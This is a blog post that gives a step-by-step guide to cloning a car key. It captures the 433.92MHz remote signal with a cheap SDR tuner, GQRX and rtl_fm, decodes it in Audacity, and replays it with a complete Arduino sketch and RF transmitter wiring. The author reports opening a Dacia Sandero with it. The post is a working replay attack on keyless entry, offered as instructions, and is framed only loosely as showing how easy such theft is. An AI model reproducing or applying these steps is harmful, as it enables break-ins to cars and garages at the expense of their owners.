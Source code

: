 ```yaml
---
layout: post
title: How to clone a car key
---
```


Recently, a friend told me that he had bought a USB antenna to see the TV on the computer (R820T2) and that this antenna could capture traffic in a big frequency range, not only TV range. This antenna could capture frequencies of garage and car keys although it was designed to TV frequencies.

With this info I decided to buy one of this TV antennas that are very cheap, only 10$ ([R820T2 TV antenna](https://es.aliexpress.com/item/FW1S-New-USB-2-0-Digital-DVB-T-SDR-DAB-FM-HDTV-TV-Tuner-Receiver-Stick/32600825233.html?spm=a2g0s.11045068.rcmd404.2.266956a4uWrjNg&pvid=54eedbd9-24c7-42a3-9eed-ab60d3f9f07c&gps-id=detail404&scm=1007.16891.96945.0&scm-url=1007.16891.96945.0&scm_id=1007.16891.96945.0))

<p align="center">
	  <img src="/blog/images/carkey/antenna.jpg">
</p>

To send the signal captured from the car key with the antenna I used one [Arduino One R3](https://www.dx.com/p/uno-r3-development-board-microcontroller-mega328p-atmega16u2-compat-for-arduino-blue-black-2027231#.XAvpPnVKixu) and a [433MHz Radio Frequency transmitter](https://www.dx.com/p/rf-transmitter-receiver-module-433mhz-wireless-link-kit-w-spring-antennas-for-arduino-2057011#.XAvpVnVKixu).
<p align="center">
	  <img src="/blog/images/carkey/arduino.jpg">
	  <img src="/blog/images/carkey/module.jpg">
</p>

I decided to install GQRX that is an open source radio software that allows us see the frequencies spectre and detect our car key frequency using our antenna.
We can install GQRX easily with:

```bash
$ sudo apt-get install gqrx
```
<p align="center">
	  <img src="/blog/images/carkey/gqrx.jpg">
</p>

Now, with the antenna connected to the computer and GQRX running with the 433MHz frequency selected (common frequency for the car keys) and if we press any button of the car key, GQRX will capture it. In my case, the exact frecuency of my car key is 433.92MHz
<p align="center">
	  <img src="/blog/images/carkey/wave.png">
</p>

Once checked that the car key frequency is the correct one, we can capture the "open" and "close" message to reverse them and resend to the car with our Arduino.
I will do the process for the "open" message.
I use another open source software called rtl_433 to capture the message that can be downloaded from the official [GitHub repository](https://github.com/merbanan/rtl_433)

With rtl_433 installed we can follow the repository instructions to capture the signal with this command:

```bash
$ rtl_fm -M am -f 433920000 -s 2000000 - | sox -t raw -r 2000000 -e signed-integer -b 16 -c 1 -V1 - sound.wav 
```
The -f parameter, that has the value 433920000, corresponds with the exact frequency of my car key and sound.wav is the name of the generated file with the signal captured.

I executed the command for 10 seconds and I press the key button three times to have different captures of the "open" message.
To stop the capturing process press Ctrl + C.
With the .wav file in my desktop I opened it with Audacity, a sound editing software that will allows us reverse wave captures.
If we open the .wav file with Audacity we will see the next wave:
<p align="center">
	  <img src="/blog/images/carkey/auda1.png">
</p>

In my case it was easy to appreciate that in the signal dump, there are three zones that corresponds with the periods that I have been with the key button pressed.
If we center our attention in one of these three zones we will see the signal like this:

<p align="center">
	  <img src="/blog/images/carkey/auda2.png">
</p>

In the previous image we can see the same pattern repeated some times. Each of this repetitions correspond to the "open" message that are sended many times when we hold the key.
With this information we will clip one of this patterns to apply reverse engineering to it.

<p align="center">
	  <img src="/blog/images/carkey/auda3.png">
</p>

Now we have to apply reverse engineering to this signal fragment.
If we zoom in the signal, it can be appreciate that are some parts with a big amplitude and other with a smaller one. The big amplitude zones means 1 in binary and the small amplitude zones means 0 in binary.

The last thing we have to calculate is the period of the binary simbols. This means that, if we want to send a digital 0 is translated to to an analogic 0 as a signal with small amplitude during a time T. T is what we have to calculate and we can do this easily with Audacity:

<p align="center">
	  <img src="/blog/images/carkey/auda4.png">
</p>

In my case the period T is 0.4 ms as you can see in the previous image.

With this information we can compile the code below replacing code array value with the 1/0 sequence that corresponds to our reversed signal.

In the array, 1 means a period of big amplitudes of length T and 0 means a period of small amplitudes of, also, length T.

```cpp
//Developed by j0lama
 
#include <SoftwareSerial.h>
 
#define time 400
 
#define pin 9
 
void setup() {
  Serial.begin(9600);
  while (!Serial);
  pinMode(pin, OUTPUT);
  Serial.println("The code will be sent in 2 seconds...");
}
 
void loop() {
    int code[170] = {1,0,0,1,1,0,1,1,0,1,1,0,1,0,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,0,0,1,1,0,1,0,0,1,1,0,1,0,0,1,0,0,0,1,1,0,1,0,0,1,0,0,1,0,0,1,1,0,1,1,0,1,0,1,0,0,1,0,0,1,0,0,1,0,0,1,1,0,1,1,0,1,0,0,1,1,0,1,0,0,1,0,0,1,0,0,1,1,0,1,1,0,1,0,0,1,1,0,1,0,0,1,1,0,1,1,0,1,0,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,1,0,1,0,0,1,1,0,1,1,0,1,1,0,1,1};
    int i, j;
    for(i = 0; i < 3; i++)
    {
        for(j = 0; j < 170; j++)
        {
            if(code[j] == 1)
            {
                digitalWrite(pin, HIGH);
                delayMicroseconds(time);
                digitalWrite(pin, LOW);
            }
            else
            {
                delayMicroseconds(time);
            }
        }
        Serial.println("Message sent!");
        delay(15);
    }
    Serial.println("Final");
    delay(1000);
}
```

With the code compiled and loaded in our Arduino, we have to setup the hardware following the connections below.

#### Arduino --> RF Transmitter):

- Ground to Ground
- 3.3 V pin to VCC pin
- 9 pin to ATAD pin

I tested this method on Dacia Sandero with this result:

<p align="center">
	<video width="800" height="500" controls>
	  <source type="video/mp4" src="https://raw.githubusercontent.com/j0lama/blog/master/images/carkey/car.mp4"></source>
	</video>
</p>

The car is opened!

With this small write-up I wanna show you how easily is to unlock a car (or a garage) without the key for only 15-20 $.

### Report errors
It's probably that this write-up contains a lot of mistakes so if you find any mistake, please let me know on Twitter (@j0lama).

Thanks for reading.

------